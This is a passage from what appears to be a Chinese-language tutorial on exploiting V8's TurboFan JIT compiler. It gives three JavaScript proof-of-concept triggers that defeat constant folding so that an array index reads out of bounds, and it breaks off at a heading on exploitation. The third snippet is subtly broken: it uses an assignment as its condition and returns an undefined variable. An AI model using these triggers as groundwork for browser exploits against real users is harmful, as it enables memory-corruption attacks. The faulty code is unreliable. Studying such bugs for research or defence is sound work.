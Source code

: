 有如下三种方法： 

（1）对idx变量进行一些算数运算

```javascript
function opt(){
	let arr = [0, 1, 2, 3];
	let idx = 4;
 	idx &= 0xfff;
	return arr[idx];
}

for(var i=0; i < 0x10000; i++)
    opt()

var x = opt()
console.log(x)
```

（2）进行逃逸分析优化

因为EscapeAnalysisPhase 在 LoadEliminationPhase 后面，到这一步turbolizer才知道o.x的值为4。所以可以把一个常数放在非逃逸对象中来避免常数折叠。

```javascript
function opt(){
	let arr = [0, 1, 2, 3];
	let o = {x: 4};
 	return arr[o.x];
}

for(var i=0; i < 0x10000; i++)
    opt()

var x = opt()
console.log(x)
```

（3）利用无效的phi节点来混淆range信息：

```javascript
function opt(x){
	let arr = [0, 1, 2, 3];
	let idx = (x="foo")?4:2;
	return a[idx];
}

for(var i=0; i < 0x10000; i++)
    opt()

var x = opt("foo")
console.log(x)
```



## 漏洞利用
